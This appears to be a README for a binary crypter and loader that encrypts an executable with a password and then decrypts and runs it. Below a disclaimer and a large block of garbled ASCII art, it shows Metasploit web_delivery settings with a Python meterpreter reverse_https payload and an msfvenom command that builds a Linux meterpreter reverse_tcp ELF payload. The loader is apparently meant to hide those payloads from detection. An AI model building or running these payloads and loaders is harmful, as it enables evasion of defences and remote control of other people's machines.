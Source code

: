 ### encrypt any bin first using a password
> go run encryptor.go /usr/bin/ls encrypted_binary abcd1
>> `abcd1` -> is the password

### use the loader to decrypt and run the binary
> ./loader encrypted_binary abcd1


> please guys, i am not responsible for anything you do with this, i am doing this just for a proof of concept.
> i am not responsible for any damage caused by this.

> https://www.youtube.com/watch?v=nBKiVwEOWuk


```
                                                                                                     
      ;~{>)²‹                                               [t³­˜>c–                                 
    ÷˜    ›°·»úë0÷                                       ³•‘¾c«²z)v2¼                                
   ˆ«^—   ³”* —¬¤ôøý4’                                 ×7!–¼½»ªö­‡ö;«1                               
   ?  ì   ‹“ ’> «+}îSñÿ¶<                            [öì‚i)× ÷)i“)°©¯I                               
   »   j  ›    ¦77–›?Y&Ý5Óß                         öÏ¾˜t¼I<^¤Jôz¯¿¢?d                               
   í “‡ˆ—{  º’ ˆ`~v­²íÍ<!ž§ÓËI                    ˆxï†ˆ²aI—ìZ3²I??u¼>P  ¨xkµˆ                        
   ™      +½ƒ±n’˜¦»¬²d{ˆ@’¬¾áÖÉS                  î‘& ª!u?xfD&3r²‡íˆOq  ¼                      <?”F  
   )«   ’”  ¨!ì½ƒ4n¤’(„+»<•!?£PFWO               [~¯yª)° xDòäàx²†¼=`¾E  ü³                        ®; 
   ‚ì ¿ º‘ ‘v¬jv‰ò}¤tZ+·–¹„îov)2ÙÒ#µ            J  ïƒ|÷~îf24ûùn•ò+(z2B° ‚£                       ³ë  
    ÷   (  î[>ì?}y:’í¬j)•÷¬¡ x~<~™ÒèŒ‡         >²¯¡ˆ‘‰›ï·õòT9ü²òî;ÓQîgi  ;©                      6¸  
     ô    rˆrªo/»@¤c†ù¦ ü í–:?«S:+IàSkÉ‹      <‚–J”–cóª³:vò¥Ü<•y¯3õý@Ë‰   —ü²                   Jí   
      ˜   ”·(¹{»?—µ?)äö¤aó!!{)?¯*2l×jÿøXa    |›ï I–¿ºïi¬sÇ¥»?7¤ö[ÍbÜU#Ì     4i                 ƒu    
      i  )‹  7»   ûtuh «jˆ)^(|›^{÷a%‡?5ÛEB! «´¦¡‡¿ï¯­?÷!;o}šá£Ï[ü6µÒžB}      õ1               `Í;    
      |¬`   ²°`+¯ ª˜”ä‹¨{ª|;{“ö­‰t{jùí{iÚðÐ®3  +¿z¯ˆ°1ºv}„‰²U¼v›Sôfqúœ!       xƒ              úí     
       ª r  ‹“ ¨t:íªvÞ?ï´–´/í?v×òˆ?¡?V*[JÍbŒÅî—(†z¯C²“!*²;3C=¢6Iò‡9å9Ž;        pw            ²à      
       ì`  ii  ~~‰ ×!7 ²4);†{zƒ>¼{=ª+ív™IIJÙÿÑÌv}!=i ò¬˜tì®zº¦¿lûYOÒÏæ          £©           3ú      
       „   t  ƒ³  ƒ­ !IJò ª†o<>%¥ì1>•}}iÏå½lìmËÙ–V¯¯;?”|1²7—ö)^ÏÜÏ±g™þ           YÌ         ­P       
        t   {—°  ò°¡ˆ}–<ì ö7¬}†v×¯ü7zwl)vYrf&cCèÆü)i7»¬í:í«)¦[³5yUxüµm         –  ©h        ‡V       
        !   :: ) ²;;?‰ `÷ ³ì;*<ï«)[Iu‡<%í[‰n<s±ïVâ€JIt¯Ï¯))t=ìnñTh6k6Î       £±c   4O       b×       
         L      >ª~¨   ?/  ö=}7×7l7¿ƒíƒò¤j<ìó¼=o±ïVKh•r¹I¹í;S«>YÿUý‰ñ‡       ¡¢½    yÍ     …Ù        
          »|}<Ii?ù   ¨¸×› <•–?r¬*¤»­?¬i1j£iîvö7ó7ajJ3Wf³I*‚î±I¦YüÿŸaÀ­       ˆäµ­    EO’  ;Èÿ        
            í  –}¯  ‘3¢      :j)’;<{ª=rIJ s=¬‡>?tû×l«eèH¼ò¬”?´iIYÚ&LZ         xXï˜   vÂ©  ŸÙƒ        
              I       ’   ‡‰  ª7^ºI¤ ¡?×>rjí<¿>)?í7¢†@îÝŒŸ¼„3@×IOá4h¥   ­ï7<›‚÷sAc    é®<»É0›        
     ‹?Lõƒv){[÷›²¤v†9üDZf©¢[–÷¼Ír<¤==»J<¿×<ÏTî<1t†ív<I<ö3ûWÍ)wÏáQÓ€ë^   `îï…çðµ&4ÙáŽE§òÊµJmP         
   †[³   :¦„²’“ˆ­*/?¿20t¿+zÏl?^v1IÝañÙðÒÎüží«—+<v=vì/?<cíöVÎÛöÄKê€éÄ„´°?‚ %ƒÓQÆéEÚ€9[?/¿P€ã„ 7¼÷     
  ¬(  –†/¹¹<|/³˜²„ˆ³)){/÷ïv}vzYí7vIv0¼ïc‰>¿ì¤ƒƒžŸhµk™?„i?íò3óFÐÆÆÉÆRêÐK¥øÜñÿØÉHhQÇéÂRÒ2  ˆ=tmœÿY†+   
  «¹  ’   ¸¹!}i»Ìƒo¬;«¬ª^{ujlI(ˆ …+’ˆ˜’?¿‰¤@‡j1ILúçLaûñµUmh‰5TµbÂÆæÈBgœÚÛØÑÆÆÊÅæÆÃÿv‰õç=S  7cÙÃwod^  
   —            ˆ        ª!«{*ª                       ¡‡cJ0¼ôµBÆÈMÈæÙKåBÇ$åŠéMÄÂŽŠáÿ€Äø¹ü©  ½¤€µox4  
   «       ‘«írl¦       :!ªi   u                    °vi>iY=½¶ÉMKÄÑ8þ#€µ6x$åTIÆÅÆB€ÈÆÌœS1ìCä ^SªQ!¶h` 
    “          ‚‘·º   ¨­›­º}vz®92¤L©ƒÌn‰o3ùüö¦’ˆ|>¿¼u>iJ©o?14ã46A6¥eÚJ±Ðë“ùá &ÆqÉBEÆžÕXJC<å´ªù•šmVk  
     /     ’˜ «)¯|“    )òfÌç¢<v(î*{/¯¯I±ni1nùzCôµ—^+‚­Iy1v‰mýÿZ»é®Ieï¼SŠ&Ÿø´f”ËÆÛÂ€EQœm÷t;š:?iárÆã2  
      j…¯{„­    ‹~º‘‹îtö{?“ª÷¦)”¬¤I7+¬!}v)oï)¼ŸOÎùÍ¼í=éÐWëóÇGÊÜÎìùaaf72‡lYåºŸ¼ÊÑÊ$NŽHgXVakÇ IYV§Æß   
       ¹~ ¯ˆ    ²¸>¼vr¢J›o*‚7~^;‰ç[ˆ4u>!¦5í“DDS› o3ŸçméÔÉG§ÞÂÆXg?2®(üÍLä$Bßáv$ØÆÊÈmKHBœmÜÜôlöý>Ù÷    
         v?   ˆ‹@¬×v1:”ï²`u¢¿“![)¾³¯*/°t4û©!óÕ$© slFFŸðÂÆ€DYýôÀHjJÎxÙešáéêèá€á$ãâØBÆMRðRÀBWÆÂWÊÎ     
            (…}0C[•{²„¢¯¹º¯•²5O2²/^0ya}õC5DÙF€m21q©ãðÔÀQØRZäÔ¦ÙmƒxxµZéPÂÆXéM2ŒÉhËÃÇ4<pÜÑNÑœÞýÿÚ      
            ´6Ÿ0ƒ«)<í!?÷”ª!5h®šShüûXgx üxŠmÜDÙÞj±KLŸæQÄéÂŒE8V;6øo“ÖÖœŽÁÜÊWMÑWæÑÀÃš4² øpaŠþ®3ü#Sh     
           »ähÓmÅŠ0i”;i„¿{{ÖmgÈæÔŠ&œ#h´š<ÑþÄéhëoóHàYBØ#ÃÅgÈps“åÓû»tAXÄEÆÑæNÑŽæÀRã£¯(%óÐ å©‡t•dåY}    
          òdÓpqøâmÛÐØNØÆÆÆÆÆmÆWHÿèµêÅV/M¾ŸÊÊMšd==HéfúÔÉBBŠQê§žEÿs¦ qÄÉÂÆÊÑŒ#ÛBÓÿá™;  ìg•4Ol…  ŽŠy    
         ®ñÓRÆŒKAéâdŠEqÙTÐAþÿÿÕÉAÕŸKÀn¦M¶ƒYQR¶8+ Üð&®½ßØEÉNãœ8#pþülÃÂÊÉÈÆÆÊp$ÕäÍ†   ˜SûËC/    ¨gõ^   
          ÞœÆ€ðNÉÂEÀÑœß§äµý£µmõéMÑÞÅQÍ’ËdÖÐšØÆ4ª øéâÓfžÆÆÆþMÁéü¼ÞÞAÑW#BÆØMàEÜó›     ÏŸ: Yt´    cHi   
         »®ÕÆÊÆÆMŸéRF¾Y¢Pàz7èçžýŠèâmÄ( æpgÞÔáÚÿì Këñäh½ŸÆŒKÆØÕâF§ŽêŒÆEEØ8éGp        šs  v™v     £ó   
        ›úÞÊœÅmœŽÂEEü¡iS3½o°ìT§N¶PZÿ!` ENÞâäµ¥ãNÀÃXâøô££ÑÆÑËÉÔÃðûœqÉŒœþTýÿX6       •µ    |L¼    <U   
        a8êÐNøßEÅä9ašå9@|  >cõfÖÓSbœu½˜XœØŠÒaw¢FÿÆÂÜÿgSWÆÆBÅØR#ÕÇ8š€&¤r3‹ •š„      òt     ·L½   ‚6   
       ÏûÆÊ#ðœmþûDUTŸ&ŸúdŠª  ¯@ûÏ xFå6šG8ØØðÎ¾6xéÐÖeµhENŒÀbœð4ü%h[¦  ‘     ˆhí      o       ƒz  ¸i   
      úDœËâÕ€ŒØéµYÒ&úîrY!ÎõBÎ fU[7c¾¼©2£ÝðÊmðáµákJþåwaHü{>»äÎ• ’S+           uÇ     ‰         5 «    
       0ÆÆÓµpŒÝÖ$ÎA¼IY¦[‚  Sšm¶xÍ5ú6ìò½šøWèŒAÇäµaœ£éÇ:/½   (u  ’8„            !9`   y                
        „ÙQÆÑÆÉDàŸy¾¤»?¡    j¼µXÉS49}%xèÓÊÆbëFÇÚP!Îl       ‘D  ³m¯              0Y   î               
        ×Î$þHÄÈŒÑŒâU£/í    «ii2ÝÔqmZ=ç5Ò¥mœŒpY @ú·Î–       `Š  jl<`              ™ô~ >               
        öqÂÂ¾ëñœŽ2¼èP$Šü  ^×^üö™ü®žDCóÜqÿmð    Z˜ ó»V       Ç¦ ûªÏ¿             ©  Û  ƒ              
        ëÜÆÉA®HÙbüxI«tüY4ßÚú«×¼eñ¼üÿ©Þ8£éý    ï©  Ißö)      §} ;´ ’á¹                  Ì             
       ˜ÛgÕÄÕðþqšúá±o   ²C3ÒÊé/çÿêÎÒíµŠÆe     4    }ç       i}      ìl                               
        ’QØÆÆÆÆÆÊgý1:  ‚)a‘z4ÜŽÑh6µþêð       L%    ˜B”     `í¿        v¨                             
          ëÊÉÅþRøBFwrO€EÊHFä7GÙèë^çµZ     ­››4      òü        ´ˆ       µ}                            
          ¯ÔÃÐÐNfÈ£¡  aSlnìóµ¹      Ô~       )       1¦                 <‡                           
           £êÆŽŒ$õµ¤  |ÌF523†       ·=        „      &/                  7v                          
            ñáãEÈÉMŽÖoî+¬^ú          ±       /`      ’¾                 ‹7 t“‚                       
              nâÖäœbÙP¡|ÿöº          {=      ›        f·                                             
               ²Ð4ýÞñB#™¸ 6           Ï    [¸         ‡|                                             
                 ßžØœmÜ®Y§¦c¶±?/—     ~î s¯           u3›                                            
                    ¹@SÙÅ¥äGÁB&t?    v+w¸           ²:                                               
                           ¼µÏ%t„²²››  ¦%                                                            
                                       ·;¿ó…                                                         

```



> docker run --rm -it --network host metasploitframework/metasploit-framework


Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.7      yes       The local listener hostname
   LPORT  444              yes       The local listener port
   LURI                    no        The HTTP Path



msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f elf -o /tmp/payload.elf


